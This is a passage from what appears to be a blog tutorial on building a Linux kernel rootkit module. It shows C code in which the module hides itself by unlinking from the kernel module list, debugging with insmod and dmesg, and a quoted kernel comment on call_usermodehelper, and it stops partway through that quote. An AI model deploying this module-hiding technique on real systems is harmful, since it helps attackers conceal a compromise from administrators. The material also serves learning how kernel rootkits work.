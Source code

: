  if (ret)
    printk(KERN_WARNING "Error in mod_timer\n");

  printk(KERN_INFO "rootkit_mod hidind itself.\n");

  mutex_lock(&module_mutex);
  list_del(&mod->list);
  mutex_unlock(&module_mutex);

  printk(KERN_INFO "rootkit_mod done.\n");
  return 0;
}
module_init(rootkit_init);

static void __exit rootkit_exit(void)
{
  printk(KERN_INFO "rootkit_mod unloaded.\n");
}
module_exit(rootkit_exit);

{% endcodeblock %}

Ok, we have the timer code separated, at this moment the timer only will print *rootkit_callback* in timer callback.
Time to checkout the timer code. If the timer blows up we will be sure that we have made a dummy mistake in configuration, or something like that.


{% codeblock lang:bash %}
root@a20-olimex:~$ insmod rootkitmod_time.ko
{% endcodeblock %}

And... No explosion? Lets check the dmesg

{% codeblock lang:bash %}
root@a20-olimex:~$ dmesg
...
[   59.812976] my_timer_callback (-24020).
{% endcodeblock %}

Ok, so from that it follows that the timer has been configured correctly, when it shouldn't have. So what next can we check? Let's read a little bit about the **call_usermodehelper** function (by the way we should have done it before we use it, but this would be too easy).

{% codeblock lang:c kmod.c https://github.com/torvalds/linux/blob/097f70b3c4d84ffccca15195bdfde3a37c0a7c0f/kernel/kmod.c kernel/kmod.c %}

/**
 * call_usermodehelper() - prepare and start a usermode application
 * @path: path to usermode executable
 * @argv: arg vector for process
 * @envp: environment for process
 * @wait: wait for the application to finish and return status.
 *        when UMH_NO_WAIT don't wait at all, but you get no useful error back
 *        when the program couldn't be exec'ed. This makes it safe to call
 *        from interrupt context.
 *
 * This function is the equivalent to use call_usermodehelper_setup() and
 * call_usermodehelper_exec().
 */
int call_usermodehelper(char *path, char **argv, char **envp, int wait)
{
    struct subprocess_info *info;
    gfp_t gfp_mask = (wait == UMH_NO_WAIT) ? GFP_ATOMIC : GFP_KERNEL;
